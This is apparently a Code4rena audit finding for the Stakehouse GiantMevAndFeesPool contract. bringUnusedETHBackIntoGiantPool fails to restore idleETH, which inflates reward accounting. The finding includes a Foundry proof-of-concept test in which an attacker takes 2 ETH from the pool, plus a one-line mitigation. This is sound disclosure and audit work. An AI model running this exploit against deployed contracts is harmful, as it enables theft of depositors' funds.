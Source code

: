 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-10

# [GiantMevAndFeesPool.bringUnusedETHBackIntoGiantPool function loses the addition of the idleETH which allows attackers to steal most of eth from the Giant Pool](https://github.com/code-423n4/2022-11-stakehouse-findings/issues/173) 

# Lines of code

https://github.com/code-423n4/2022-11-stakehouse/blob/main/contracts/liquid-staking/GiantMevAndFeesPool.sol#L126-L138
https://github.com/code-423n4/2022-11-stakehouse/blob/main/contracts/liquid-staking/GiantMevAndFeesPool.sol#L176-L178


# Vulnerability details

## Impact
The contract GiantMevAndFeesPool override the function totalRewardsReceived:
```
return address(this).balance + totalClaimed - idleETH;
```
The function totalRewardsReceived is used as the current rewards balance to caculate the unprocessed rewards in the function `SyndicateRewardsProcessor._updateAccumulatedETHPerLP`
```
uint256 received = totalRewardsReceived();
uint256 unprocessed = received - totalETHSeen;
```

The idleETH will be decreased in the function `batchDepositETHForStaking` for sending eth to the staking pool. But the idleETH wont be increased in the function `bringUnusedETHBackIntoGiantPool` which is used to burn lp tokens in the staking pool, and the staking pool will send the eth back to the giant pool. And then because of the diminution of the idleETH, the `accumulatedETHPerLPShare` is added out of thin air. So the attacker can steal more eth from the GiantMevAndFeesPool.

## Proof of Concept
test:
test/foundry/TakeFromGiantPools.t.sol
```
pragma solidity ^0.8.13;

// SPDX-License-Identifier: MIT

import "forge-std/console.sol";
import {GiantPoolTests} from "./GiantPools.t.sol";
import { LPToken } from "../../contracts/liquid-staking/LPToken.sol";

contract TakeFromGiantPools is GiantPoolTests {
    function testDWclaimRewards() public{
        address nodeRunner = accountOne; vm.deal(nodeRunner, 12 ether);
        address feesAndMevUserOne = accountTwo; vm.deal(feesAndMevUserOne, 4 ether);
        address feesAndMevUserTwo = accountThree; vm.deal(feesAndMevUserTwo, 4 ether);

        // Register BLS key
        registerSingleBLSPubKey(nodeRunner, blsPubKeyOne, accountFour);

        // Deposit ETH into giant fees and mev
        vm.startPrank(feesAndMevUserOne);
        giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
        vm.stopPrank();
        vm.startPrank(feesAndMevUserTwo);
        giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);

        bytes[][] memory blsKeysForVaults = new bytes[][](1);
        blsKeysForVaults[0] = getBytesArrayFromBytes(blsPubKeyOne);

        uint256[][] memory stakeAmountsForVaults = new uint256[][](1);
        stakeAmountsForVaults[0] = getUint256ArrayFromValues(4 ether);
        giantFeesAndMevPool.batchDepositETHForStaking(
            getAddressArrayFromValues(address(manager.stakingFundsVault())),
            getUint256ArrayFromValues(4 ether),
            blsKeysForVaults,
            stakeAmountsForVaults
        );
        vm.warp(block.timestamp+31 minutes);
        LPToken[] memory tokens = new LPToken[](1);
        tokens[0] = manager.stakingFundsVault().lpTokenForKnot(blsPubKeyOne);

        LPToken[][] memory allTokens = new LPToken[][](1);
        allTokens[0] = tokens;
        giantFeesAndMevPool.bringUnusedETHBackIntoGiantPool(
            getAddressArrayFromValues(address(manager.stakingFundsVault())),
            allTokens,
            stakeAmountsForVaults
        );
        // inject a NOOP to skip some functions
        address[] memory stakingFundsVaults = new address[](1);
        bytes memory code = new bytes(1);
        code[0] = 0x00;
        vm.etch(address(0x123), code);
        stakingFundsVaults[0] = address(0x123);
        giantFeesAndMevPool.claimRewards(feesAndMevUserTwo, stakingFundsVaults, blsKeysForVaults);
        vm.stopPrank();
        console.log("user one:", getBalance(feesAndMevUserOne));
        console.log("user two(attacker):", getBalance(feesAndMevUserTwo));
        console.log("giantFeesAndMevPool:", getBalance(address(giantFeesAndMevPool)));
    }

    function getBalance(address addr) internal returns (uint){
        // giant LP : eth at ratio of 1:1
        return addr.balance + giantFeesAndMevPool.lpTokenETH().balanceOf(addr);
    }

}
```

run test:
```
forge test --match-test testDWclaimRewards -vvv
```

test log:
```
Logs:
  user one: 4000000000000000000
  user two(attacker): 6000000000000000000
  giantFeesAndMevPool: 6000000000000000000
```
The attacker stole 2 eth from the pool.

## Tools Used
fodunry

## Recommended Mitigation Steps
Add 
```
idleETH += _amounts[i];
```
before burnLPTokensForETH in the GiantMevAndFeesPool.bringUnusedETHBackIntoGiantPool function.